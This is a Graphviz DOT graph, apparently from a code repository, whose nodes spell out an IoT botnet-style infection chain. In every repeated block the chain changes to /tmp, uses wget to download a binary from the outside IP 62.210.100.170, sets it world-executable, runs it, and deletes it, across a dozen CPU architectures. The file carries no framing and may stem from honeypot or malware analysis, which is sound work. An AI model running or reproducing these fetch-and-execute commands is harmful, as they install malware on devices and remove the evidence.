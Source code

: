 digraph {
130 [label="cd /tmp "];
130 -> 130
2 [label="wget http://62.210.100.170/[M] "];
2 -> 4 [label=";,"];
4 [label="chmod 777 [M] "];
4 -> 6 [label=";,"];
6 [label="./[M] "];
6 -> 8 [label=";,"];
8 [label="rm -rf [M] "];
8 -> 130 [label=";,"];
130 [label="cd /tmp "];
130 -> 130
12 [label="wget http://62.210.100.170/[MS] "];
12 -> 14 [label=";,"];
14 [label="chmod 777 [MS] "];
14 -> 16 [label=";,"];
16 [label="./[MS] "];
16 -> 18 [label=";,"];
18 [label="rm -rf [MS] "];
18 -> 130 [label=";,"];
130 [label="cd /tmp "];
130 -> 130
22 [label="wget http://62.210.100.170/[SH] "];
22 -> 24 [label=";,"];
24 [label="chmod 777 [SH] "];
24 -> 26 [label=";,"];
26 [label="./[SH] "];
26 -> 28 [label=";,"];
28 [label="rm -rf [SH] "];
28 -> 130 [label=";,"];
130 [label="cd /tmp "];
130 -> 130
32 [label="wget http://62.210.100.170/[x86] "];
32 -> 34 [label=";,"];
34 [label="chmod 777 [x86] "];
34 -> 36 [label=";,"];
36 [label="./[x86] "];
36 -> 38 [label=";,"];
38 [label="rm -rf [x86] "];
38 -> 130 [label=";,"];
130 [label="cd /tmp "];
130 -> 130
42 [label="wget http://62.210.100.170/[A6] "];
42 -> 44 [label=";,"];
44 [label="chmod 777 [A6] "];
44 -> 46 [label=";,"];
46 [label="./[A6] "];
46 -> 48 [label=";,"];
48 [label="rm -rf [A6] "];
48 -> 130 [label=";,"];
130 [label="cd /tmp "];
130 -> 130
52 [label="wget http://62.210.100.170/[I6] "];
52 -> 54 [label=";,"];
54 [label="chmod 777 [I6] "];
54 -> 56 [label=";,"];
56 [label="./[I6] "];
56 -> 58 [label=";,"];
58 [label="rm -rf [I6] "];
58 -> 130 [label=";,"];
130 [label="cd /tmp "];
130 -> 130
62 [label="wget http://62.210.100.170/[PPC] "];
62 -> 64 [label=";,"];
64 [label="chmod 777 [PPC] "];
64 -> 66 [label=";,"];
66 [label="./[PPC] "];
66 -> 68 [label=";,"];
68 [label="rm -rf [PPC] "];
68 -> 130 [label=";,"];
130 [label="cd /tmp "];
130 -> 130
72 [label="wget http://62.210.100.170/[I5] "];
72 -> 74 [label=";,"];
74 [label="chmod 777 [I5] "];
74 -> 76 [label=";,"];
76 [label="./[I5] "];
76 -> 78 [label=";,"];
78 [label="rm -rf [I5] "];
78 -> 130 [label=";,"];
130 [label="cd /tmp "];
130 -> 130
82 [label="wget http://62.210.100.170/[M68] "];
82 -> 84 [label=";,"];
84 [label="chmod 777 [M68] "];
84 -> 86 [label=";,"];
86 [label="./[M68] "];
86 -> 88 [label=";,"];
88 [label="rm -rf [M68] "];
88 -> 130 [label=";,"];
130 [label="cd /tmp "];
130 -> 130
92 [label="wget http://62.210.100.170/[A5] "];
92 -> 94 [label=";,"];
94 [label="chmod 777 [A5] "];
94 -> 96 [label=";,"];
96 [label="./[A5] "];
96 -> 98 [label=";,"];
98 [label="rm -rf [A5] "];
98 -> 130 [label=";,"];
130 [label="cd /tmp "];
130 -> 130
102 [label="wget http://62.210.100.170/[PPC-440] "];
102 -> 104 [label=";,"];
104 [label="chmod 777 [PPC-440] "];
104 -> 106 [label=";,"];
106 [label="./[PPC-440] "];
106 -> 108 [label=";,"];
108 [label="rm -rf [PPC-440] "];
108 -> 130 [label=";,"];
130 [label="cd /tmp "];
130 -> 130
112 [label="wget http://62.210.100.170/[A4-TL] "];
112 -> 114 [label=";,"];
114 [label="chmod 777 [A4-TL] "];
114 -> 116 [label=";,"];
116 [label="./[A4-TL] "];
116 -> 118 [label=";,"];
118 [label="rm -rf [A4-TL] "];
118 -> 130 [label=";,"];
130 [label="cd /tmp "];
130 -> 130
122 [label="wget http://62.210.100.170/[I4] "];
122 -> 124 [label=";,"];
124 [label="chmod 777 [I4] "];
124 -> 126 [label=";,"];
126 [label="./[I4] "];
126 -> 128 [label=";,"];
128 [label="rm -rf [I4] "];
128 -> 130 [label=";,"];
130 [label="cd /tmp "];
130 -> 130
132 [label="wget http://62.210.100.170/[M64] "];
132 -> 134 [label=";,"];
134 [label="chmod 777 [M64] "];
134 -> 136 [label=";,"];
136 [label="./[M64] "];
136 -> 137 [label=";,"];
}
